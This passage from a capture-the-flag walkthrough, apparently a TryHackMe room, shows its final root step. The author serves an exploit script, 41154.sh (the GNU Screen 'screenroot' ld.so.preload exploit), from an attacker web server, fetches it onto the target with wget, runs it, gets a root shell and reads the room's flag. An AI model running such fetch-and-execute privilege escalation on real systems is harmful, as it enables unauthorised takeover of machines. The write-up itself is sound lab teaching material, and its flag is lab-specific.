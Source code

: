 Let's start a webserver on our local machine:

```bash
python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Now from our target machine, let's download the script:

```bash
wget 10.6.31.49:8080/41154.sh

--2024-04-05 20:34:10--  http://10.6.31.49:8080/41154.sh
Connecting to 10.6.31.49:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1149 (1.1K) [text/x-sh]
Saving to: ‘41154.sh’

41154.sh                                                   100%[========================================================================================================================================>]   1.12K  --.-KB/s    in 0s      

2024-04-05 20:34:10 (180 MB/s) - ‘41154.sh’ saved [1149/1149]

/tmp: Scheme missing.
FINISHED --2024-04-05 20:34:10--
Total wall clock time: 0.2s
Downloaded: 1 files, 1.1K in 0s (180 MB/s)
```

Let's execute it !!

```bash
sh 41154.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.
```

Let's verify:

```bash
# whoami

root
```

Yaaay !! Let's get our flag !!

```bash
cat /root/root.txt

THM{5ecd98aa66a6abb670184d7547c8124a}
```
